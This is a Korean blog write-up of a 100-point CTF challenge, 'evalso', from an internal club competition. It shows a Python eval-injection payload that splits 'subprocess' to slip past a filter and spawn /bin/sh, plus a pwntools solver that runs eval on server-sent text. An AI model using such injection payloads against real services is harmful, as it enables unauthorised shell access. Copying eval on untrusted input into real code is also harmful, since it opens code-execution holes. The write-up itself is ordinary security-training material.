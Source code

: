 ```yaml
---
layout: post
title: "[JFS] evalso"
subtitle: "이발소"
tags: jfs
comments: true
---
```


### JFS란?
	ARGOS 내부 해킹 대회

***

evalso 라는 100점짜리 문제.
<!--more-->

![evalso](https://i.imgur.com/80zwpPS.png)



눌러보면 다음과 같다.

![](https://i.imgur.com/hALQ6el.png)

5초안에 문제를 풀어라(?)

![](https://i.imgur.com/EnCtCdE.png)

>동아리 내부망에서만 접근 가능한 IP다.

다음과 같이 nc 했을 때, 수식이 나오고 답을 입력하면 다음 단계로 넘어가는 듯 하다.

![](https://i.imgur.com/GAlNpRB.png)

수식을 풀면 되는 줄 알고 python의 pwntools를 이용하여 해보려 했지만... 

10개를 풀고나니 항이 3개가 되어 곤란해졌다. 

그래서 고민하던 중 예전에 봤던 PyJail 문제가 생각나서 쉘코드를 삽입해보았다.

` __import__('subpro'+'cess').call(['/bin/sh', '-s'])`

Python에서 'subprocess'를 우회하여 쉘을 실행시키는 쉘코드이다.

그런 후 ls를 했더니

`evalso.py` 라는 파일이 달랑 하나 있기에

`cat evalso.py` 를 입력하니 (5초안에 해야한다.) 플래그가 보였다. !

`JFS{eVaL_Iz_0UR_fRi3Nd}` flag가 python 파일에 코딩되어 있었다.

100점 획득!



****

사실 이 문제는 pyjail이 아니라 built-in function을 활용하는 문제였다. 위 수식을 받아서 '=?'를 제외하고 eval이라는 함수의 인자로 넣어서 입력하면 계산된 출력되는 점을 이용하는 문제였다.(ㅋㅋㅋ)



```python
from pwn import *

p = remote("168.188.123.207", 16160)

for i in range (0, 30):
        line = p.recvline()
        print line
        if not line[0] == 'a':
                result = line[:-3]
                print result
                p.sendline(str(eval(result))) #계산된 결과를 str형태로 바꾼 후 서버에 보냄
        else:
                result = line[5:-3] #"ans = " 처리
                print result
                p.sendline(str(eval(result)))
print p.recvline()
```



다음과 같은 python 코드를 실행하면 문제가 풀린다 !